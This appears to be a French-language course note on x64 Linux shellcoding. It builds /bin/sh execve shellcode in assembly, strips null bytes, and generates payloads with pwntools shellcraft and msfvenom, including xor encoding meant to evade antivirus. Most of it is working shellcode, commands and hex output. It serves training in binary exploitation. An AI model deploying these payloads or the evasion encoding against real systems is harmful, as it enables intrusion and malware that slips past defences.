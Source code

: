 # Outils de Shellcoding

***

## <mark style="color:red;">🧠 Outils de Shellcoding</mark>

***

### <mark style="color:blue;">🐚 Shellcode</mark> <mark style="color:blue;"></mark><mark style="color:blue;">`/bin/sh`</mark>

Avant de continuer avec les outils et ressources en ligne, essayons de **construire notre propre shellcode `/bin/sh`**.&#x20;

Pour cela, nous pouvons utiliser l’appel système `execve` avec le **numéro de syscall 59**, qui nous permet d’exécuter une application système :

```bash
mrroboteLiot_1@htb[/htb]$ man -s 2 execve
```

```
int execve(const char *pathname, char *const argv[], char *const envp[]);
```

Comme on peut le voir, le syscall `execve` accepte **3 arguments**. Nous avons besoin d’exécuter `/bin/sh /bin/sh`, ce qui nous placera dans un shell `sh`. Donc, notre fonction finale sera :

```c
execve("/bin//sh", ["/bin//sh"], NULL);
```

Nous allons donc initialiser nos arguments comme suit :

* `rax` → 59 (numéro du syscall `execve`)
* `rdi` → `["/bin//sh"]` (pointeur vers le programme à exécuter)
* `rsi` → `["/bin//sh"]` (liste des arguments)
* `rdx` → `NULL` (pas de variables d’environnement)

**Note :** Nous avons ajouté un `/` supplémentaire dans `'/bin//sh'` afin que le **nombre total de caractères soit 8**, ce qui remplit un registre 64 bits. Ainsi, nous n’avons pas à nous soucier de vider le registre ou de résidus indésirables. Les `/` supplémentaires sont **ignorés sous Linux**, donc c’est une **astuce utile** utilisée en exploitation binaire pour équilibrer le nombre d’octets.

En utilisant les concepts vus précédemment pour effectuer un syscall, le code assembleur suivant exécute le syscall requis :

```nasm
global _start

section .text
_start:
    mov rax, 59         ; numéro de syscall execve
    push 0              ; NULL pour terminer la chaîne
    mov rdi, '/bin//sh' ; premier argument pour /bin/sh
    push rdi            ; empiler sur la stack
    mov rdi, rsp        ; pointeur vers '/bin//sh'
    push 0              ; NULL
    push rdi            ; deuxième argument
    mov rsi, rsp        ; pointeur vers les arguments
    mov rdx, 0          ; environnement NULL
    syscall
```

On remarque que ce code **contient des octets NULL**, donc il **ne produira pas un shellcode fonctionnel**.

```
Stack (mémoire):
                     
0x7fffffffdfe0: │ 0x7fffffffdff0 │ ← rsi pointe ici (argv[0])
                ├────────────────┤
0x7fffffffdfe8: │ 0x0000000000 │   (argv[1] = NULL)
                ├────────────────┤
0x7fffffffdff0: │ '/bin//sh'     │ ← rdi pointe ici (pathname)
                ├────────────────┤
0x7fffffffdff8: │ 0x0000000000 │   (NULL terminator de string)
                └────────────────┘

VUE CONCEPTUELLE
================

execve(pathname, argv[], envp[])
         │        │       │
         │        │       └─→ rdx = NULL
         │        │
         │        └─→ rsi → [ptr1, NULL]
         │                    │
         │                    └─→ ptr1 → "/bin//sh"
         │
         └─→ rdi → "/bin//sh"
```

***

#### <mark style="color:green;">✅ Objectif : retirer les NULLs</mark>

We can zero-out `rdx` with `xor`, and then push it for string terminators instead of pushing `0`:Code: nasm

```nasm
_start:
    mov al, 59          ; execve syscall number
    xor rdx, rdx        ; set env to NULL
    push rdx            ; push NULL string terminator
    mov rdi, '/bin//sh' ; first arg to /bin/sh
    push rdi            ; push to stack 
    mov rdi, rsp        ; move pointer to ['/bin//sh']
    push rdx            ; push NULL string terminator
    push rdi            ; push second arg to ['/bin//sh']
    mov rsi, rsp        ; pointer to args
    syscall
```

```bash
python3 shellcoder.py sh
```

```
b03b4831d25248bf2f62696e2f2f7368574889e752574889e60f05
27 octets - Aucun octet NULL
```

***

### <mark style="color:blue;">🧰 Shellcraft</mark>

Commençons avec **pwntools** et sa bibliothèque `shellcraft`, qui permet de **générer du shellcode pour divers appels systèmes**. Pour lister les syscalls disponibles :

```bash
 pwn shellcraft -l 'amd64.linux'
```

```
...SNIP...
amd64.linux.sh
```

Nous voyons que le syscall `amd64.linux.sh` nous donne un shell comme notre shellcode précédent. Pour générer son shellcode :

```bash
mrroboteLiot_1@htb[/htb]$ pwn shellcraft amd64.linux.sh
```

```
6a6848b82f62696e2f2f2f73504889e768726901018134240101010131f6566a085e4801e6564889e631d26a3b580f05
```

Ce shellcode est **moins optimisé** que le nôtre. On peut le tester avec `-r` :

```bash
mrroboteLiot_1@htb[/htb]$ pwn shellcraft amd64.linux.sh -r
```

```
$ whoami
root
```

On peut aussi utiliser `Python3` pour accéder aux appels avancés :

```python
>>> from pwn import *
>>> context(os="linux", arch="amd64", log_level="error")
>>> syscall = shellcraft.execve(path='/bin/sh', argv=['/bin/sh'])
>>> asm(syscall).hex()
```

```
'48b801010101010101015048b82e63686f2e726901483104244889e748b801010101010101015048b82e63686f2e7269014831042431f6566a085e4801e6564889e631d26a3b580f05'
```

Puis le tester avec `loader.py` :

```bash
python3 loader.py '48b8...0f05'
```

```
$ whoami
root
```

***

### <mark style="color:blue;">🧨 Msfvenom</mark>

Utilisons maintenant `msfvenom` pour générer du shellcode. Lister les payloads disponibles :

```bash
msfvenom -l payloads | grep 'linux/x64'
```

Exécuter un shell via `/bin/sh` :

{% code fullWidth="true" %}
```bash
msfvenom -p 'linux/x64/exec' CMD='sh' -a 'x64' --platform 'linux' -f 'hex'
```
{% endcode %}

```
Payload size: 48 bytes
6a3b589948bb2f62696e2f736800534889e7682d6300004889e652e80300000073680056574889e60f05
```

Tester avec `loader.py` :

```bash
python3 loader.py '6a3b...0f05'
```

```
$ whoami
root
```

***

### <mark style="color:blue;">🔐 Encodage de Shellcode</mark>

On peut **encoder nos shellcodes** pour éviter la détection par antivirus ou protections. Liste des encodeurs disponibles :

```bash
msfvenom -l encoders
```

Encoder avec `x64/xor` :

{% code fullWidth="true" %}
```bash
msfvenom -p 'linux/x64/exec' CMD='sh' -a 'x64' --platform 'linux' -f 'hex' -e 'x64/xor'
```
{% endcode %}

```
Payload size: 87 bytes
4831c94881e9faffffff488d05efffffff...
```

Tester :

```bash
python3 loader.py '4831c9...'
```

```
$ whoami
root
```

On peut aussi encoder plusieurs fois avec `-i` :

```bash
msfvenom -i 5 ...
```

***

### <mark style="color:blue;">🛠 Encoder son propre shellcode</mark>

Encoder un shellcode écrit manuellement :

{% code fullWidth="true" %}
```bash
python3 -c "import sys; sys.stdout.buffer.write(bytes.fromhex('b03b48...0f05'))" > shell.bin
msfvenom -p - -a 'x64' --platform 'linux' -f 'hex' -e 'x64/xor' < shell.bin
```
{% endcode %}

***

### <mark style="color:blue;">🌐 Ressources de Shellcode</mark>

Enfin, utilisez des sites comme :

* **Shell-Storm** → [http://shell-storm.org/shellcode/](http://shell-storm.org/shellcode/)
* **Exploit-DB** → [https://www.exploit-db.com/](https://www.exploit-db.com/)

Exemple : un shellcode `/bin/sh` de 22 octets trouvé sur Exploit DB peut être plus adapté si l’espace est limité (ex. overflow de 22 octets).

***
